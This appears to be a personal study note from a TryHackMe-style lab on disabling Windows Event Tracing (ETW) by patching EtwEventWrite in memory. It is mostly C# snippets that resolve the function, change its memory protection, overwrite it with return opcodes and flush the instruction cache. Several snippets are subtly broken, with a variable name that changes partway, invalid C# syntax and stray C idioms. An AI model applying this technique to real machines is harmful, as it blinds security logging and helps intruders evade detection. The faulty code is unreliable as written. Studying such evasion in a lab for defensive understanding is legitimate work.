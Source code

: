 # ETW-Evasion Patching Tracing Functions

Patching Tracing Functions is a [[Logging-And-Monitoring-Evasion]] technique. The [[Event-Tracing-for-Windows]] (ETW) is loaded from the runtime of every new process, commonly originating from the **CLR** (**C**ommon **L**anguage **R**untime). Within a new process, ETW events are sent from the userland and issued directly from the current process. 

The techniques involve [[Binary-Patching]] (writing pre-defined opcodes to an) in-memory function of ETW to patch and disable functionality
1. Obtain a handle for `EtwEventWrite` by loading the library using `LoadLibrary` then obtain the handle using `GetProcAddress`
```csharp
var ntdll = Win32.LoadLibrary("ntdll.dll");
var etwFunction = Win32.GetProcAddress(ntdll, "EtwEventWrite");
```
2. Modify memory permissions of the function - the permissions are defined by the `flNewProtect` parameter; `0x40` enables X, R, or RW access ([memory protection constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)).
```csharp
uint oldProtect;
Win32.VirtualProtect(
	etwFunction, 
	(UIntPtr)patch.Length, 
	0x40, 
	out oldProtect
);
```
3. Write opcode bytes to memory (writing to the function not a process with `Marshal.Copy`!)
```csharp
patch(new byte[] { 0xc2, 0x14, 0x00 });
Marshal.Copy(
	patch, 
	0, 
	etwEventSend, 
	patch.Length
);
```
4. Restore memory permissions of the function (optional, but probably a good idea) 
```csharp
VirtualProtect(etwFunction, 4, oldProtect, &oldOldProtect);
```
5. Flush (the patched function will be executed from the instruction cache) the instruction cache
```csharp
Win32.FlushInstructionCache(
	etwFunction,
	NULL
);
```

## References

[Microsoft Documentation - Memory Protection Constraints](https://docs.microsoft.com/en-us/windows/win32/memory/memory-protection-constants)
[THM Evading Logging and Monitoring](https://tryhackme.com/room/monitoringevasion)

